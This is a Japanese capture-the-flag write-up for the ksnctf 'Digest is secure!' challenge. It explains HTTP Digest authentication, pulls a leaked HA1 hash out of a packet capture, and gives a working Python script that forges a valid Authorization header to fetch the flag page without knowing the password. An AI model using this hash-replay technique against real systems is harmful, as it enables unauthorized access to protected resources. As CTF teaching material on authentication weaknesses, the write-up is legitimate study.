


# ksnctf: Digest is secure!

**Category:** Network  
**Points:** 150pt  
**Description:**  

> http://ksnctf.sweetduet.info/q/9/q9.pcap

**Hint:**

>

## 解き方
basic認証やばいねの後に，Digest認証は安全じゃとか言われても，きな臭さしかないですよね．とりあえず配布されたpcapを眺めてみる．



httpでフィルタをかけて観測できたURLは以下の3つ．

- http://ctfq.sweetduet.info:10080/favicon.ico
- http://ctfq.sweetduet.info:10080/~q9/
- http://ctfq.sweetduet.info:10080/~q9/htdigest

どうやら`/~q9/`へのアクセス時にDigest認証を要求されてる模様．`No.9`での要求に対して，`No.14`で認証情報を送っている．またflag情報は`No.16`のtext dataから`http://ctfq.sweetduet.info:10080/~q9/flag.html`にありそうだと推測できる．

```html
<!DOCTYPE html>
  <head>
    <meta charset="utf-8">
    <title>Q9</title>
  </head>
  <body>
    <p>Congratulations!</p>
    <p>The flag is <a href="flag.html">here</a>.</p>
  </body>
</html>
```

Digest認証(RFC2069,2617,3310)はusernameとpasswordをMD5でハッシュ化して送信する．Basic認証の盗聴や改竄の解決策として考案された．また，サーバ側から401で認証要求が返ってくる際には，認証領域 `realm`や認証方式`Digest`の他にランダムな文字列`nonce`も返される．この値を含めて認証情報をハッシュ化するため，同じusername/passwordでも毎回異なるハッシュ値を送信することになる．

認証情報として送信する`response`は以下の通り．

```
A1 = username ":" realm ":" password
A2 = HTTP method ":" URI
response = MD5( MD5(A1) ":" nonce ":" nc ":" cnonce ":" qop ":" MD5(A2) )
```

A2にあるURIはURLの概念を拡張したもの．知らなかった，なるほど．この問題では有効な`response`を作成することが重要になる．必要な値は`tcp.stream eq 3`の`HTTP stream`に書いてある．



つまり，`htdigest`ファイルの形式は以下のように推測できる．

```
username:realm:MD5(username:realm:password)
q9:secret:c627e19450db746b739f41b64097d449
```

これにより`MD5(A1)=c627e19450db746b739f41b64097d449`とわかった．
その他にも`HTTP stream`の情報から，flag取得のための`response`データは

```
response = MD5(c627e19450db746b739f41b64097d449 ":" bbKtsfbABAA=5dad3cce7a7dd2c3335c9b400a19d6ad02df299b ":" 00000001 ":" 9691c249745d94fc ":" auth ":" MD5(GET:/~q9/flag.html))
```

と表現できる．データは完成したのでflagにアクセスするスクリプトを作成する．

```python
#!/usr/bin/env python

import hashlib
import urllib
import urllib.request
import urllib.error

url = "http://ksnctf.sweetduet.info:10080/~q9/flag.html"


# response data
username = "q9"
realm = "secret"
nonce = "bbKtsfbABAA=5dad3cce7a7dd2c3335c9b400a19d6ad02df299b"
uri = "/~q9/flag.html"
algorithm = "MD5"
response = ""
qop = "auth"
nc = "00000001"
cnonce = "9691c249745d94fc"
md5a1 = "c627e19450db746b739f41b64097d449"
a2 = "GET:" + uri


def getNonce():
    try:
        data = urllib.request.urlopen(url)
        html = data.read()
    except urllib.error.HTTPError as e:
        nonce = e.info()["WWW-Authenticate"].split('"')[3]
        return nonce


def toMD5(str):
    return hashlib.md5(str.encode()).hexdigest()


def genAuthorized(nonce, response):
    authorized = (
        'Digest username="'
        + username
        + '", realm="'
        + realm
        + '", nonce="'
        + nonce
        + '",uri="'
        + uri
        + '", algorithm='
        + algorithm
        + ', response="'
        + response
        + '", qop='
        + qop
        + ", nc="
        + nc
        + ', cnonce="'
        + cnonce
        + '"'
    )
    return authorized


def main():
    nonce = getNonce()

    reqMD5 = toMD5(
        (md5a1 + ":" + nonce + ":" + nc + ":" + cnonce + ":" + qop + ":" + toMD5(a2))
    )
    authorized = (
        'Digest username="'
        + username
        + '", realm="'
        + realm
        + '", nonce="'
        + nonce
        + '",uri="'
        + uri
        + '", algorithm='
        + algorithm
        + ', response="'
        + reqMD5
        + '", qop='
        + qop
        + ", nc="
        + nc
        + ', cnonce="'
        + cnonce
        + '"'
    )

    header = {"Authorization": authorized}
    req = urllib.request.Request(url, None, header)

    try:
        data = urllib.request.urlopen(req)
        head = data.info()
        body = data.read().decode("utf-8")
        print(head, body)
    except urllib.error.HTTPError as e:
        print(e.code)
        print(e.info())


if __name__ == "__main__":
    main()
```

スクリプトを使うとflag情報が返ってくるはずである．